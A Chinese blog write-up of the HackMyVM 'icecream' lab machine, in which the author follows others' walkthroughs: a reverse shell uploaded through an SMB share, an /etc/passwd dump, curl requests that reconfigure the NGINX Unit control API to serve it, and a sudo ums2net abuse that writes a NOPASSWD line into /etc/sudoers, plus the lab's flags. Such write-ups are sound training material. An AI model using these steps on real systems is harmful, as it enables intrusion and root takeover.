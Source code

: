 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/hackmyvm_icecream.md","permalink":"/安全/靶机/hackmyvm_icecream/","title":"hackmyvm_icecream","tags":["blog"]}
---
```


# 主机发现

![Pasted image 20250201223547.png](/img/user/picture/Pasted%20image%2020250201223547.png)

主机IP
```txt
192.168.124.21
```

![Pasted image 20250201224124.png](/img/user/picture/Pasted%20image%2020250201224124.png)
开放了5个端口，后面三个不清楚是什么


![Pasted image 20250201224618.png](/img/user/picture/Pasted%20image%2020250201224618.png)


# SMB渗透

![Pasted image 20250202101753.png](/img/user/picture/Pasted%20image%2020250202101753.png)


![Pasted image 20250202102444.png](/img/user/picture/Pasted%20image%2020250202102444.png)
这个目录像是`/tmp`目录

上传反弹shell
![Pasted image 20250202102820.png](/img/user/picture/Pasted%20image%2020250202102820.png)

![Pasted image 20250202102836.png](/img/user/picture/Pasted%20image%2020250202102836.png)

```shell
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
ice:x:1000:1000:ice,,,:/home/ice:/bin/bash
unit:x:999:995:unit user:/nonexistent:/bin/false

```
# 提权-1


//后面的差不多是几乎没看懂，只能先看大佬WP复刻一下


```shell
curl -X PUT -d '{"app":{"type":"php","root":"/tmp","script":"rev.php"}}' http://192.168.124.21:9000/config/applications

curl -X PUT -d '[{"action":{"share":"/tmp/rev.php$uri","fallback":{"pass":"applications/app"}}}]' http://192.168.124.21:9000/config/routes

curl -X PUT -d '{"*:8888":{"pass":"routes"}}' http://192.168.124.21:9000/config/listeners
```

![Pasted image 20250202104533.png](/img/user/picture/Pasted%20image%2020250202104533.png)

之后再去访问
```
http://192.168.124.21:8888/rev.php
```

![Pasted image 20250202104642.png](/img/user/picture/Pasted%20image%2020250202104642.png)

```txt
HMVaneraseroflove
```


# 提权-2


![Pasted image 20250202104843.png](/img/user/picture/Pasted%20image%2020250202104843.png)

看了一下思路大概就是利用`ums2net`写入文件`/etc/sudoers`
```txt
ice ALL=(ALL) NOPASSWD: ALL
```
![Pasted image 20250202110137.png](/img/user/picture/Pasted%20image%2020250202110137.png)



```shell
echo "8080 of=/etc/sudoers" > /tmp/config
```

```shell
sudo /usr/sbin/ums2net -c /tmp/config -d
```

![Pasted image 20250202110245.png](/img/user/picture/Pasted%20image%2020250202110245.png)

![Pasted image 20250202110253.png](/img/user/picture/Pasted%20image%2020250202110253.png)


现在ice用户权限就增加了
![Pasted image 20250202110344.png](/img/user/picture/Pasted%20image%2020250202110344.png)

```shell
sudo bash
```
就有root权限了
![Pasted image 20250202111017.png](/img/user/picture/Pasted%20image%2020250202111017.png)
```txt
HMViminvisible
```






#  小结

这个靶场对我来说还是太难了，全程就是看着大佬的WP做下来的
在两次提权阶段所应用的技术都是我第一次接触
对于SMB服务我也是非常不熟悉
总之，还得练






